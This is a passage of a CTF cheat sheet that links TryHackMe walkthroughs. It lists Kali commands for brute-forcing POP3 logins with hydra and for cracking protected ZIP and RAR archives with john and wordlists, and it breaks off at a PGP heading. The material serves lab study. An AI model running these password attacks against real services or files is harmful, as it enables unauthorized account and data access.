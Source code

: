 [fowsniff-ctf.md](../../walkthroughs/tryhackme/fowsniff-ctf.md "mention")

**Kali**

```
hydra -L usernames.txt -P passwords.txt -f $VICTIM pop3 -V
```

### Crack password

#### Examples

[goldeneye.md](../../walkthroughs/tryhackme/goldeneye.md "mention")

**Kali**

```
hydra -l $USERNAME -P /usr/share/wordlists/fasttrack.txt pop3://$VICTIM:55007
```

## Files

### Protected Zip Files

#### Examples

[john-the-ripper.md](../../walkthroughs/tryhackme/john-the-ripper.md "mention")[agent-sudo.md](../../walkthroughs/tryhackme/agent-sudo.md "mention")[chill-hack.md](../../walkthroughs/tryhackme/chill-hack.md "mention")[ha-joker-ctf.md](../../walkthroughs/tryhackme/ha-joker-ctf.md "mention")

**Kali**

```
zip2john secure.zip > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt 
```

### Protected RAR Archives

#### Examples

[john-the-ripper.md](../../walkthroughs/tryhackme/john-the-ripper.md "mention")

**Kali**

```
/opt/john/rar2john secure.rar > secure_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt secure_john.txt
```

### PGP Keys

#### Examples

[anonforce.md](../../walkthroughs/tryhackme/anonforce.md "mention")

**Kali**
